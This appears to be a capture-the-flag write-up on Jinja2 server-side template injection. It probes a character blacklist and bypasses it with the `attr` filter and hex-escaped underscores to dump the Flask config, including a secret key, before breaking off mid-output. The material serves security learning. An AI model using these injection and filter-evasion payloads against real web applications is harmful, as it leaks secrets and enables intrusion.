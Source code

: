 The description makes a reference to [yesterday's challenge]({{% ref "posts/adventofctf/challenge_16.md" %}}) so we probably have to use the same concept.

Let's verify it by trying the following input: `{{7*7}}`. It returned `49` so we can continue with the next step.

## Exploit

Just like [yesterday's challenge]({{% ref "posts/adventofctf/challenge_16.md" %}}), we start by trying to get the config like so: `{{config.items()}}`. Sadly, we get an error message: "You entered an emoji that is on my deny list".

### Blacklist

As it turns out, this challenge has a blacklist on the input. Let's first test what is and what isn't allowed. We can do this by just trying some characters:

`{{7*7}}` -> `49`  
`{{7*'7'}}` -> deny list  
`{{7*"7"}}` -> `7777777`  
`{{7*"_"}}` -> deny list  
`{{7*"confi"}}` -> `conficonficonficonficonficonficonfi`  
`{{7*"config"}}` -> deny list  
`{{7*"."}}` -> deny list

Blacklist: `'`, `_`, `config`, `.`

### Getting the config

As "config" is blacklisted, we have to come up with another way to access it. Luckily there is a fairly straightforward way to get it as `config` is saved in `context`. And, in jinja2, `self` in a template refers to `context`. This means we can get it by reading `self.__dict__`.

We cannot do this directly however, as dots and underscores are blacklisted. Luckily, jinja2 has some [built-in filters](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters) like `attr` that allow us to get attributes from a variable.

This works by piping a variable into a filter like so `{{self|attr("")}}`. This string passed to `attr` is the attribute we want. We can't just fill in `__dict__` however, because of the blacklist. But, because we pass the attribute as a string, we can use it's hexadecimal ASCII value like so: `\x5f`.

The resulting input is the following: `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`.

```yml
{
    '_TemplateReference__context': <Context {
        'range': <class 'range'>,
        'dict': <class 'dict'>,
        'lipsum': <function generate_lorem_ipsum at 0x7f2a4eda4a70>,
        'cycler': <class 'jinja2.utils.Cycler'>,
        'joiner': <class 'jinja2.utils.Joiner'>,
        'namespace': <class 'jinja2.utils.Namespace'>,
        'url_for': <function url_for at 0x7f2a4dfc6ef0>,
        'get_flashed_messages': <function get_flashed_messages at 0x7f2a4dfcd0e0>,
        'config': <Config {
            'ENV': 'production',
            'DEBUG': False,
            'TESTING': False,
            'PROPAGATE_EXCEPTIONS': None,
            'PRESERVE_CONTEXT_ON_EXCEPTION': None,
            'SECRET_KEY': 'Leer alles over Software Security bij Arjen (follow @credmp) at https://www.novi.nl', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31),
            'USE_X_SENDFILE': False,
            'SERVER_NAME': None,
            'APPLICATION_ROOT': '/',
            'SESSION_COOKIE_NAME': 'session',
```